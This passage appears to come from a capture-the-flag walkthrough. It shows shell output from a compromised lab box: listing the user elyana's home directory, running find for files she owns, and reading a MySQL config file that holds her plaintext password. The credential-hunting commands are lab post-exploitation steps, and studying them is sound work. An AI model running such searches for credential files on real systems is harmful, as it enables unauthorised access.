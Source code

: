 Back to business!

```bash
bash-4.4$ ls -al
ls -al
total 48
drwxr-xr-x 6 elyana elyana 4096 Oct  7  2020 .
drwxr-xr-x 3 root   root   4096 Oct  5  2020 ..
-rw------- 1 elyana elyana 1632 Oct  7  2020 .bash_history
-rw-r--r-- 1 elyana elyana  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 .bashrc
drwx------ 2 elyana elyana 4096 Oct  5  2020 .cache
drwxr-x--- 3 root   root   4096 Oct  5  2020 .config
drwx------ 3 elyana elyana 4096 Oct  5  2020 .gnupg
drwxrwxr-x 3 elyana elyana 4096 Oct  5  2020 .local
-rw-r--r-- 1 elyana elyana  807 Apr  4  2018 .profile
-rw-r--r-- 1 elyana elyana    0 Oct  5  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 elyana elyana   59 Oct  6  2020 hint.txt
-rw------- 1 elyana elyana   61 Oct  6  2020 user.txt

bash-4.4$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
bash-4.4$ cat hint.txt
cat hint.txt
Elyana's user password is hidden in the system. Find it ;)

```
nieh!

```bash
bash-4.4$ find / -user elyana 2>/dev/null
find / -user elyana 2>/dev/null
/home/elyana
/home/elyana/.local
/home/elyana/.local/share
/home/elyana/.cache
/home/elyana/user.txt
/home/elyana/.gnupg
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt

bash-4.4$ cat /etc/mysql/conf.d/private.txt
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght

```
